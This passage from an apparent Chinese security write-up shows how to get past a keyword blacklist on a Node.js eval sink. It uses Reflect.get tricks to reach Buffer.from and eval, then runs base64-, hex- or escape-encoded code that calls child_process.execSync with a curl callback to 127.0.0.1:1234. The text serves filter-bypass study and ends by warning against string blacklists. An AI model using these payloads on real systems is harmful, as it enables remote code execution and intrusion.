 这里过滤了`base64`，可以直接换成

```
`base`.concat(64)
```

过滤掉了`Buffer`，可以换成

```
Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`)))
```

要拿到`Buffer.from`方法，可以通过下标

```
Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`))))[1]
```

但问题在于，关键字还过滤了中括号，这一点简单，再加一层`Reflect.get`

```
Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`)))),1)
```

所以基本payload变成

```
Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`)))),1)(`Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=`,`base`.concat(64)).toString()
```

但问题在于，这样传过去后，eval只会进行解码，而不是执行解码后的内容，所以需要再套一层eval，因为过滤了eval关键字，同样考虑用反射获取到eval函数。

```
Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.includes('eva')))(Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`)))),1)(`Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZCgiY2hpbGRfcHJvY2VzcyIpLmV4ZWNTeW5jKCJjdXJsIDEyNy4wLjAuMToxMjM0Iik=`,`base`.concat(64)).toString())
```

在能拿到`Buffer.from`的情况下，用16进制编码也一样.

```
Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.includes('eva')))(Reflect.get(Object.values(Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.startsWith(`Buf`)))),1)(`676c6f62616c2e70726f636573732e6d61696e4d6f64756c652e636f6e7374727563746f722e5f6c6f616428226368696c645f70726f6365737322292e6578656353796e6328226375726c203132372e302e302e313a313233342229`,`he`.concat(`x`)).toString())
```

当然，由于前面提到的16进制和字符串的特性，也可以拿到eval后直接传16进制字符串

```
Reflect.get(global, Reflect.ownKeys(global).find(x=&gt;x.includes(`eva`)))(`\x67\x6c\x6f\x62\x61\x6c\x2e\x70\x72\x6f\x63\x65\x73\x73\x2e\x6d\x61\x69\x6e\x4d\x6f\x64\x75\x6c\x65\x2e\x63\x6f\x6e\x73\x74\x72\x75\x63\x74\x6f\x72\x2e\x5f\x6c\x6f\x61\x64\x28\x22\x63\x68\x69\x6c\x64\x5f\x70\x72\x6f\x63\x65\x73\x73\x22\x29\x2e\x65\x78\x65\x63\x53\x79\x6e\x63\x28\x22\x63\x75\x72\x6c\x20\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x3a\x31\x32\x33\x34\x22\x29`)
```

感觉nodejs中对字符串的处理方式太灵活了，如果能eval的地方，最好还是不要用字符串黑名单做过滤吧。

感谢我前端大哥[semesse](https://blog.semesse.me/)的帮助



## 参考链接
1. [https://xz.aliyun.com/t/9167](https://xz.aliyun.com/t/9167)
1. [https://camp.hackingfor.fun/](https://camp.hackingfor.fun/)